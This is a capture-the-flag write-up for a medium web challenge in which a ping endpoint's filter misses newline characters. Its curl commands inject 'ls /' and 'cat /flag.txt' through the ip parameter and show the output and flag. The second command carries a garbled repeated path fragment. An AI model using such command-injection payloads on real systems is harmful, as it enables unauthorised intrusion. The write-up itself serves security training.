

## **Challenge Overview**

**Name:** Ping Tool
**Category:** Web Exploitation  
**Difficulty:** Medium
**Points**: 300

###### Challenge Description

Welcome to our Network Diagnostic Suite! We built a convenient web-based ping utility so our infrastructure team can quickly check host availability from anywhere. The tool has been hardened with a WAF that blocks all known dangerous shell characters, so feel free to test it out.

Try pinging a few hosts and let us know what you think of the interface.

---
## **Application Analysis**

### **Functionality**

- Endpoint: `POST /ping`
- Parameter: `ip`
- Backend likely executes:

```
ping <user_input>
```

---

### **Command Injection**

Although the WAF blocks common metacharacters like:

- `;`
- `&&`
- `|`
- `$()`

It fails to sanitize **newline characters (`\n`)**

Inject Newline Payload
```
curl -X POST http://chall-0f7fcfe1.evt-246.glabs.ctf7.com/ping \
-d $'ip=8.8.8.8\nls /'
```

```
...
...
etc
flag.txt
home
lib
lib64
...
...
```
`flag.txt` discovered in root directory

Read the Flag
```
curl -X POST http://chall-0f7fcfe1.evt-246.glabs.ctf7.com/ping \/ping \
-d $'ip=8.8.8.8\ncat /flag.txt'
```

Flag:
```
ctf7{ping_was_not_safe_4c9bd906}
```

---
